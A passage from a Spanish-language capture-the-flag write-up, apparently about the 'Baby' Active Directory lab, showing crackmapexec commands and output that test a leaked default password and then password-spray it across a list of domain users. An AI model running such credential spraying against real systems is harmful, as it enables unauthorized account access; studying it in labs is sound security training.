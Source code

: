 - Vamos a ver a qué usuario le pertenece la contraseña. **(En el output donde nos dan la contraseña observamos al usuario Teresa Bell)** vamos a agregarla ala lista.

<p align="center">
<img src="https://i.imgur.com/zfIEZ1d.png">
</p>

- Al parecer cambió la contraseña, pero podemos ver si es correcta con **crackmapexec**.

```bash
➜  content crackmapexec smb baby.vl -u teresa.bell -p 'BabyStart123!'
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [-] baby.vl\teresa.bell:BabyStart123! STATUS_LOGON_FAILURE
➜  content
```

- Vamos a hacer un **Password Spraying** para ver si alguien más utiliza la contraseña, pero antes vamos a volver a ver los usuarios, ya que al parecer me olvidé de algunos.

```bash
➜  content cat users.txt
Ian.Walker
Leonard.Dyer
Hugh.George
Ashley.Webb
Jacqueline.Barnett
Teresa.Bell
Kerry.Wilson
Joseph.Hughes
Caroline.Robinson
Connor.Wilkinson
➜  content
```

- Ahora sí, procedemos a usar **crackmapexec**.

```bash
➜  content crackmapexec smb baby.vl -u users.txt -p 'BabyStart123!' --continue-on-success
SMB         baby.vl         445    BABYDC           [*] Windows 10.0 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         baby.vl         445    BABYDC           [-] baby.vl\Ian.Walker:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! STATUS_LOGON_FAILURE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
SMB         baby.vl         445    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! STATUS_LOGON_FAILURE
➜  content
```
